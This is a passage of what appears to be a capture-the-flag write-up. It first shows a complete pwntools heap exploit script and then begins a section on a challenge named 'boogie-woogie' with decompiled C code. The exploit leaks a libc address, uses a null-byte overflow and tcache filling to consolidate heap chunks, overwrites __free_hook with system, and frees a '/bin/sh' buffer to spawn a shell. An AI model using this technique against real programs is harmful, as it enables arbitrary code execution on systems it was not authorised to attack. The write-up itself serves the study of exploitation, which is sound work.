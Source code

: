 ```py

do_str(0x1000, 'A')
do_str(0x50, b'G' * 8 + fake_chunk)
do_free(1)
do_str(0x1000, 'A')
do_str(0x60, b'F')
libc.address = u64(do_tok(1, "a").ljust(8, b'\x00')) - 0x3ebc41

log.info(f"LIBC LEAK @ {hex(libc.address)}")

do_str(0x38, b'A' * 0x38) # idx=4
do_str(0x148, b'B' * 0xf8 + p64(0x21) + 0x28 * b"A" + p64(0x21)) #size field of this chunk is 0x151

do_tok(4, chr(0x51)) # trigger null byte

do_free(4)
do_str(0x38, b'B' * 0x30 + p64(0x100))


#Fill tcache
for i in range(7):
	do_str(0xf8, 'P')

for i in range(7, -1, -1):
	do_free(5+i)


do_free(3) #free the chunk after our fake chunk. tcache is full, so will consolidate backwards into a one big unsorted bin

do_str(0x1f8, b'/bin/sh\x00' + b'P' * 0x38 + p64(0) + p64(0x71) + p64(libc.sym.__free_hook))

do_str(0x68, 'A' * 8) #allocate from tcache

do_str(0x68, p64(libc.sym.system)) #this will write system to __free_hook

do_free(3) #trigger __free_hook

p.interactive()
```

## boogie-woogie

Boogie-woogie was a really simple challenge made by `pepsipu`.

### Code Overview

Here is the code for the challenge:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 num1; // [rsp+8h] [rbp-18h] BYREF
  __int64 num2; // [rsp+10h] [rbp-10h] BYREF
  unsigned __int64 v6; // [rsp+18h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  puts(_art);
  puts(s);
  while ( data[0] )
  {
    num2 = 0LL;
    ...
    printf("\n\x1B[31;49;1;4m%s\x1B[0m\n\n\n", data);
```